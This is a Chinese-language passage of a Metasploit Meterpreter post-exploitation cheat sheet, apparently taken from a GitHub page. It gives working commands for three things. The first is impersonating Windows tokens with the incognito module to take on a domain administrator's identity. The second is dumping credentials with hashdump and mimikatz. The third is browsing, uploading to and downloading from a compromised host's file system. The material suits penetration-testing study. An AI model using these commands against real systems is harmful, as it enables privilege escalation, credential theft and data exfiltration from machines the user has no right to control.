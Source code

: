 - 令牌假冒

    在用户登录 windows 操作系统时,系统都会给用户分配一个令牌(Token),当用户访问系统资源时都会使用这个令牌进行身份验证,功能类似于网站的 session 或者 cookie。

    msf提供了一个功能模块可以让我们假冒别人的令牌,实现身份切换,如果目标环境是域环境,刚好域管理员登录过我们已经有权限的终端,那么就可以假冒成域管理员的角色。
    ```bash
    getuid  # 查看当前用户
    use incognito   # 进入该模块
    list_tokens -u  # 查看存在的令牌
    impersonate_token 用户名  # 令牌假冒
    # 注意用户名的斜杠需要写两个。

    getuid  # 查看是否切换成功
    ```

- 获取凭证
    ```bash
    run hashdump

    load mimikatz   # 加载mimikatz模块
    wdigest
    kerberos
    ```

- 操作文件系统

    **基本操作**
    ```bash
    ls：列出当前路径下的所有文件和文件夹。
    pwd 或 getwd：查看当前路径
    search：搜索文件,使用search -h查看帮助。
    cat：查看文件内容,比如cat test.txt。
    edit：编辑或者创建文件。和Linux系统的vm命令类似,同样适用于目标系统是windows的情况。
    rm：删除文件。
    cd：切换路径。
    mkdir：创建文件夹。
    rmdir：删除文件夹。
    getlwd 或 lpwd：查看自己系统的当前路径。
    lcd：切换自己当前系统的目录。
    lls：显示自己当前系统的所有文件和文件夹。
    ```

    **上传和下载**
    ```bash
    upload <file> <destination> # 上传文件到 Windows 主机
    # 注意：使用 -r 参数可以递归上传上传目录和文件

    download <file> <path to save>  # 从 windows 主机下载文件
    # 注意：Windows 路径要使用双斜线
    # 如果我们需要递归下载整个目录包括子目录和文件,我们可以使用 download -r命令
    ```
